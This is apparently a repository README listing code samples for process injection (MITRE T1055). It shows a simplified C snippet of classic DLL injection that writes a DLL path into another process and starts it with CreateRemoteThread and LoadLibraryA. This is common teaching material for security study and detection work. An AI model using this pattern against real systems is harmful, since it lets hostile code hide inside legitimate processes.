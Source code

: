 # Code Samples: T1055 Process Injection

This folder contains code examples demonstrating process injection techniques on Windows systems.

## Example: Classic DLL Injection (C)

```c
// Simplified DLL injection example
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPid);
LPVOID allocMem = VirtualAllocEx(hProcess, NULL, dllPathLen, MEM_COMMIT, PAGE_READWRITE);
WriteProcessMemory(hProcess, allocMem, dllPath, dllPathLen, NULL);
HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)LoadLibraryA, allocMem, 0, NULL);
```
